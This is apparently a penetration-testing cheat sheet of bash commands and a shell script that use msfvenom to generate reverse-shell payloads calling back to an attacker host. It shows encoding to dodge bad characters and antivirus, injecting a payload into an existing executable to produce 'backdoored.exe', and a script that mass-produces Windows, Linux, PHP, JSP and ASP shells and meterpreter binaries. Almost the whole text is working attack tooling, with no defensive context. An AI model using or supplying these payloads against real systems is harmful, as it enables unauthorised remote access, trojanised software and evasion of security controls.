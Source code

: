 ```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -b "\x00\x0a\x0d" -f python
# Avoid null byte, line feed, carriage return

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -b "\x00\x0a\x0d\x20" -e x86/alpha_mixed -f c
# Multiple bad characters with encoding

# Template injection and advanced options
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -x /path/to/template.exe -k -f exe -o backdoored.exe
# -x: Use executable template (inject into existing exe)
# -k: Keep template functionality intact

# Multi-platform payload generation script
cat > payload_generator.sh << 'EOF'
#!/bin/bash

LHOST=$1
LPORT=$2
OUTPUT_DIR="payloads_$(date +%Y%m%d_%H%M%S)"

if [ -z "$LHOST" ] || [ -z "$LPORT" ]; then
    echo "Usage: $0 <LHOST> <LPORT>"
    exit 1
fi

mkdir -p "$OUTPUT_DIR"
echo "[+] Generating payloads for $LHOST:$LPORT"

# Windows payloads
echo "[+] Generating Windows payloads..."
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o "$OUTPUT_DIR/win_shell.exe"
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o "$OUTPUT_DIR/win_meterpreter.exe"
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o "$OUTPUT_DIR/win64_shell.exe"

# Linux payloads
echo "[+] Generating Linux payloads..."
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f elf -o "$OUTPUT_DIR/linux_shell"
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f elf -o "$OUTPUT_DIR/linux64_shell"

# Web payloads
echo "[+] Generating web payloads..."
msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o "$OUTPUT_DIR/shell.php"
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw -o "$OUTPUT_DIR/shell.jsp"
msfvenom -p asp/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw -o "$OUTPUT_DIR/shell.asp"

# Encoded payloads
echo "[+] Generating encoded payloads..."
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -e x86/shikata_ga_nai -i 3 -f exe -o "$OUTPUT_DIR/win_encoded.exe"

# Raw formats for exploitation
echo "[+] Generating raw formats..."
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f python -o "$OUTPUT_DIR/shellcode.py"
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f c -o "$OUTPUT_DIR/shellcode.c"

chmod +x "$OUTPUT_DIR/linux"*
```